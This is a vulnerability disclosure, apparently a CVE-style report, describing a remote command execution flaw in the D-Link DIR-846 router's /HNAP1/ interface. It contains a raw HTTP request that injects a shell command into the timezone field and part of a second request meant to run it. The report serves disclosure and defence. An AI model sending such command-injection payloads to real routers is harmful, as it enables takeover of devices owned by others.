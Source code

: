 ## D-Link DIR-846 RCE

### Description

The remote D-Link router is affected by a remote code execution vulnerability. D-Link DIR-846 v1.00A52 was discovered to contain a remote command execution (RCE) vulnerability via the tomography_ping_address parameter in /HNAP1/ interface.

### Attack type

Remote

### Impact

Code Execution

### Affected component

D-Link DIR-846

### Attack vector

Exploit the `SetNTPServerSettings`  interface to inject malicious command in the `/etc/config/system` file. 

```HTTP
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 78
Accept: application/json
DNT: 1
HNAP_AUTH: 6147C23206FF8CC1AB5CC13018BB3EA7 1680770210397
SOAPACTION: "http://purenetworks.com/HNAP1/SetNTPServerSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/SNTP.html?t=1680770105995
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,or;q=0.7
Cookie: PHPSESSID=b0dfed1882f1fe6eb8955ffd4b9a00c4; uid=XNecbwaw; PrivateKey=9C476884208EA69A1B7FBF06C721FFB7
Connection: close

{"SetNTPServerSettings":{"system_time_timezone":"'|`id > /tmp/result`|echo'"}}
```

![image-20230406172736707](https://raw.githubusercontent.com/Tyaoo/PicBed/master/img/202304061847427.png)

Exploit the `SetNetworkTomographySettings`  interface to execute `/etc/config/system` file.  

```HTTP
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 219
Accept: application/json
DNT: 1
HNAP_AUTH: 67A1E2B9863DEADEE016931DEC7A09BC 1680770287528
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Diagnosis.html?t=1680770228118
Accept-Encoding: gzip, deflate
```